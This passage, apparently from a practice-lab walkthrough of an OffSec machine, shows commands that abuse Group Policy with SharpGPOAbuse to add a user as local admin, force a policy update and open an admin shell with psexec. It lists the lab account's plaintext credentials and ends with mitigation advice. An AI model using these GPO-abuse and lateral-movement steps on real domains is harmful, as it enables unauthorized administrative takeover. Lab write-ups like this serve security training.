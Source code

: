 ```powershell
.\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount anirudh --GPOName "Default Domain Policy”
```

![image.png](image%2029.png)

After that run GPO Update command:

```powershell
gpupdate /force
```

![image.png](image%2030.png)

As you can see now we are local admin.

![image.png](image%2031.png)

Now let’s use either `evil-winrm` or `psexec` to get higher level shell.

```bash
psexec.py vault.offsec/anirudh:SecureHM@$IP
```

![image.png](image%2032.png)

## Credentials

```bash
anirudh:SecureHM
```

## Mitigation

- Audit and limit **write access to SMB shares** to prevent file-based attacks like `.lnk` payloads.
- Regularly review **ACLs on GPOs** to ensure only trusted users have `GenericWrite` or `Modify` permissions.
- Avoid assigning **SeRestorePrivilege** to standard users; restrict it to trusted backup accounts.
- Enable **SMB signing** and **NTLM relay protections** to prevent hash capturing and reuse.
- Monitor for suspicious `.lnk` file creations and policy modifications using **event logging** and **SIEM** tools.
